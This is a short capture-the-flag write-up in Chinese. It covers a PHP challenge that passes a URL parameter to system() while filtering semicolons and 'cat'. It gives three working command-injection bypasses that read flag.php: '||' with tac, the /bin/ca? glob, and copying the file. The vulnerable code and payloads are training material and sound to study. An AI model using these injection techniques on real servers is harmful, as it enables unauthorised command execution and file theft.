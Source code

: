 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}

```

分析源码

过滤了

;

cat

并将标准输出和标准错误输出都重定向到/dev/null



### 第一种

利用||绕过无输出

并用tac绕过cat命令

```
?c=ls||
```

![image-20250403151043147](./assets/image-20250403151043147.png)

```
?c=tac flag.php||
```

![image-20250403151100364](./assets/image-20250403151100364.png)





### 第二种

利用？匹配bin目录下的cat命令

```
?c=/bin/ca? flag.php||
```

![image-20250403151139569](./assets/image-20250403151139569.png)







### 第三种

利用cp复制flag.php到1.txt

然后读取1.txt

```
?c=cp flag.php 1.txt ||
```

![image-20250403151249424](./assets/image-20250403151249424.png)

![](./assets/image-20250403151237061.png)